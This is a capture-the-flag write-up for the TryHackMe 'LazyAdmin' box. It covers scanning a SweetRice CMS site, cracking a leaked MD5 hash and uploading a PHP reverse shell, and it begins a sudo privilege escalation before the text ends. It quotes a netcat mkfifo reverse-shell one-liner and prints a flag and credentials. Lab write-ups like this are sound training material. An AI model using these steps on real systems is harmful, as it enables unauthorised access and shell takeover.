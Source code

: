 # LazyAdmin
starting off with a quick nmap of the box to get a lay of the land

```
nmap -sV -sC 10.10.31.197 -oN nmap.txt
```
nmap show that the following ports are open 

- 22 - OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
- 80 - Apache httpd 2.4.18

Next I kick off gobusters with the common web content list from seclists

```
gobuster -u 10.10.31.197 -w ~/tools/SecLists/Discovery/Web-Content/common.txt
```
![](screenshots/gobuster.png)

Checking out the /content directory on the webserver we are greated with a site that is running SweetRice CMS

![](screenshots/sweetrice.png)

I kick off another gobuster scan this time of the /content directory and get the following results

![](screenshots/gobuster_content.png)

while that was running I did some searching for sweetrice cms and see a slew of exploits on exploitdb

![](screenshots/exploitdb.png)

going back to my gobuster results a few things jump out at me the /attachments dir, the /as dir and the /inc dir
- /attachments dir yeilded an empty directory. 
- /as gives me a login page (bingo found the admin portal)
- /inc dir how ever gives me a nice list of things to explore.

![](screenshots/content_inc.png)

looking at latest.txt gives me a version number

```
1.5.1
```

We also see a folder called mysql_backup lets check that out while we are here
inside of there we see and sql command file
```
mysql_bakup_20191129023059-1.5.1.sql	
```
Lets downlaod that and store it in our working dir for this box just in case it is useful later on

Perfect now we can start looking at exploits for 1.5.1 to see which may get us access to the sever.

Looking at the code forthe Arbitary file upload it looks like we need a username and password which we currently don't have. Lets take a look at the sqlbackup to see if it has any credentails in it we can use.
From the sql back up we can see a possilbe username of manager
we also have a hashed version of the password (appears to be md5)
```
42f749ade7f9e195bf475f37a44cafcb
```
Doing a search for the hash on crackstation.net reveals the password matching this hash

![](screenshots/crackstation.png)

Using the username and passwrod we uncovers we gain access to the admin portal

![](screenshots/adminportal.png)

Grabbing a copy of the file upload exploit from exploit db we see we need the following to make this work

- host to attack (ip of website)
- username
- password
- file to upload (our rev shell in php as that is what the cms runs on)

I get a copy of the php rev shell from pentest monkeys github

```
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

now to edit the shell php to point to our machine so we can get the revshell

now we can run the exploit python script to upload our shell

![](screenshots/exploitpy.png)

The exploit script did not work for me it just exits and doesn't upload my payload or give me any out put even though by looking at the exploit code it should.

By reading and understanding what the code is attempting do to it is trivial for us to do this on our own. a few points to remember

- by looking at the example the exploit code give we can not use a regular php file (uploading it is rejected) we have to use .php5 extension
- the exploit script uploads your file to the media center section of the admin portal so we should be able to do that manually

![](screenshots/mediacenter.png)

from the media center we successfully uploaded our revshell now to run it we know from the exploit code that the files are uploaded to the attchemnt dir under the /content dir so if we navigate to 
```
IPADDRESS/content/attachment
```
we see our shell is there

![](screenshots/attachment_with_shell.png)

if we click on that while our netcat listener is running we get our shell
alternatively we can just visit the path directly

```
IPADDRESS/content/attachment/shell.php5
```

The browsewr will appear to hang but if you look at your netcat listen you see you have gained access

doing an quick whoami reveals we are running as www-data

if we do an ls of the /home directory we see one users directory itguy

![](screenshots/ls_home.png)

doing an ls of the itguy directory we get a list of files 

![](screenshots/ls_itguy.png)

if we cat the user.txt file we get our first flag

```
THM{63e5bce9271952aad1113b6f1ac28a07}
```
lets take a look at a few of the other files he has in his directory incase there is anything useful

the mysql_login.txt reveals the following 

```
rice:randompass
```

the backup.pl script gives us

```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
This is interesting.

/etc/copy.sh
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

checking the permssions of copy.sh we see 
![](screenshots/copysh_perm.png)

the user owner can read and write to the file the group cant r and pulic can read write and execute meaning we can change this and run it could be useful
runing copy.sh directly does us no good since it runs as www-data 
we need to see if we can run anything as sudo with this account

```
sudo -l
```
![](screenshots/sudol.png)

we can run the itguys backup.pl script as root with no password perfect 
it calls the copy.sh script so lets change it to give us root when ran.

Trying to run
```
sudo /home/itguy/backup.pl
```

we get an error 

![](screenshots/notty.png)

this is for 2 reasons one our shell is not fully interactive. and if it was we would be prompted to enter the password for www-data

in order for this to work we have to use perl to call the backup.pl script
just doing sudo perl or sudo /home/itguy/backup.pl will not work 
it will just give us the same error as above since the www-data user can only run
those two commands together with out a password.

